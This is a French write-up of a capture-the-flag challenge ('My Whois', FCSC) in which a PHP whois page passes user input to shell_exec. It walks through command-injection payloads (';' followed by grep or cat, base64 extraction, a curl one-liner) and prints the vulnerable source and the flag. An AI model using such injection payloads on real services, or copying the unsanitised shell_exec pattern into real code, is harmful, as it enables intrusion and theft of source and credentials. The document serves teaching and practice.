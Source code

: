 # My Whois

catégorie | points
:---: | :---:
misc | 25

## 0x0 Intro

>Nous avons mis en place un service en ligne faisant de la recherche de nom de domaine. Pouvez-vous accédez à son code source ?
>
>http:\//challenges1.france-cybersecurity-challenge.fr:7001

## 0x1 Explications

Quelques bases en linux vous serons nécessaire pour réaliser ce challenge.
Nous allors jouer avec la ligne de commande, et je vous montrerai trois façons 
de valider ce challenge.

![challenge](./IMG/1.png)

## 0x2 Reconnaissance

Nous allons commencer par tester le service en question, voir comme il fonctionne.

![whois chatonesque](./IMG/2.png)

Nous avons bien le retour du whois comme nous l'aurions eu en tapant la commande
suivante sous linux:

```bash
whois blog.caturday-lovers.fr.nf
```

Nous pouvons donc supposer que notre demande est redirigée vers un shell, dont 
la sortie nous sera redirigée sur la page.

Pour tester cela, nous allons faire un simple **ls -alh** qui nous listera les 
fichiers présent dans le répertoire en cours, et qui sait, peut-être voir notre 
fichier à sourcer.

![test du ls](./IMG/3.png)

## 0x3 Exploitation

C'est bien ce que nous supposions, le site nous redirige la sortie d'un terminal.
Nous allons pouvoir faire ce que nous voulons de lui.

### 0x3-0 Solution 1, tout via le site

Nous savons que nous cherchons un flag dans le fichier index.php, nous avons 
sous linux une armada d'outils pour le faire, mais j'en aime un tout particulièrement,
c'est GREP.

Avec GREP nous pouvons rechercher un pattern particulier, et c'est ce que nous
allons faire ici.

Nous savons que le format des flags est FCSC {xxxx} où "xxxx" est une chaîne 
contenant des caractères ASCII imprimables. Avec Grep, nous pouvons le faire 
comme ceci:

```bash
grep -o -E "FCSC{.*?}"
```

L'option -o pour n'afficher que le résultat, et -E pour rechercher le pattern 
donné entre guillemets. La signification de **.\*?** est la suivante:

**.** = un caractère

**\*** = répété autant de fois

**?** = jusqu'au dernier caractère du pattern.

La commande à passer dans la box est donc :

```bash
; grep -E "FCSC{.*?}" index.php
```

Le **;** au début est important, c'est un opérateur de liaison qui va dire

> dès que la première commande est finie, enchaine sur la suivante

Une liste d'opérateurs est disponible [ici](https://linuxhint.com/bash_operator_examples/)

Le résultat de la commande est:

![inline web](./IMG/5.png)

### 0x3-1 Solution 2, extraction via base64

Que ce passerait-il si nous avions fait un: 

```bash
cat index.php
```
~~La  réponse n'est pas forcément celle attendue, en effet, le serveur va 
interpréter le code sur certaines parties, et donc le rendre illisible.~~

Précision de la part de ribt (merci à toi)

>En effet sur ta page tu vois plein de blancs mais ça n'est pas parce que le serveur l'exécute au contraire c'est ton navigateur qui attend du code HTML alors il te montre pas les <?php ... ?>. Tu avais juste à faire clic droit, "voir le code source" et tu aurais vu le PHP (probablement en rouge d'ailleurs).
>D'ailleurs tu vois bien que le serveur envoie le code puisque le curl avec cat index.php fonctionne

![online cat](./IMG/4.png)

Une des solutions, qui est utilisée en redteam pour extraire des données, c'est
l'utilisation de l'encodage base64, l'avantage, c'est qu'il est reversible et
qu'il conserve l'intégrité du document.

Il donne un bloc qui permet l'extraction sans être interprété, et de le décoder
ensuite sur sa machine:

![online b64](./IMG/6.png)

Il ne vous reste plus qu'a le copier et le coller dans  un document sur votre 
machine, et d'utiliser la fonction de décodage native dans votre shell:

```bash
cat base64.txt | base64 -d 
```

ou comme sur ma machine avec un alias

```bash
cat base64.txt | decode64
```

La moulinette passée, vous accédez à la source de la page:

```php

<?php
  
  /*
  ** The flag is:
  ** FCSC{2e3405155d63a7d82f215d17232ea102314509ecbe90d605cf8be26f4639153b}
  */

  ini_set('display_errors', 0);
  ini_set('display_startup_errors', 0);
  error_reporting(0);

  abstract class Command {
    public static function whois($domain) {
        $cmd = "/usr/bin/whois $domain";
        return shell_exec($cmd);
    }
  }
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">

    <title>MyWhois</title>

    <!-- Bootstrap core CSS -->
    <link href="css/bootstrap.min.css" rel="stylesheet">
  </head>

  <body>

    <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
      <a class="navbar-brand" href="index.php">MyWhois</a>
    </nav>

    <main role="main" class="container">
      <div class="jumbotron">
        <?php
          if(isset($_GET['domain']) && $_GET['domain'] !== ''){
            echo '<h1>Result: ' . $_GET['domain'] . '</h1><br>';
            echo '<pre>';
            echo Command::whois($_GET['domain']);
            echo '</pre>';
          } else {
        ?>
          <h1>MyWhois</h1>
          <p class="lead" style="margin-bottom:0px;">
            You custom whois tool!
          </p>
          <form action="index.php" method="get">
            <div class="row">
              <div class="col-sm">
                <div class="input-group mb-3">
                  <div class="input-group-prepend">
                    <span class="input-group-text" id="head-suffix">Domain</span>
                  </div>
                  <input type="text" class="form-control" placeholder="ssi.gouv.fr" id="domain" name="domain" value="">
                </div>
              </div>
            </div>
            <center>
              <button type="submit" class="btn btn-primary">Whois</button>
            </center>
          </form>
        <?php
          }
        ?>
      </div>
    </main>
  </body>
</html>
```

Il ne reste plus qu'a chercher le commentaire.

### 0x3-2 Solution 3, la ligne de commande et curl

La dernière solution proposée, est à base de ligne de commande.
Lors des précédentes méthodes, vous vous êtes peut-être aperçu que l'adresse
changeait dynamiquement avec nos requetes.

Nous pouvons utiliser ce vecteur pour réaliser une exfiltration en une seule 
ligne de commande:

```bash
curl http://challenges1.france-cybersecurity-challenge.fr:7001/index.php?domain=%3Bcat+index.php | grep -o -E "FCSC{.*?}"
```
![inline curl extraction](./IMG/7.png)

## 0x4 TL;DR

Dans cet exercice, nous avons abusé une requête qui n'était pas sécurisée, et 
qui nous à donné le champ libre pour une [Execution de code à distance](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

Une fois le code executé, nous avons eu au choix:

* la possibilité d'afficher le flag sur la page
* extraire le code de la page web (utile pour voler les IDs MySQL) via base64
* utiliser curl et une ligne de commande unique afin de parser la page récupérer le flag.
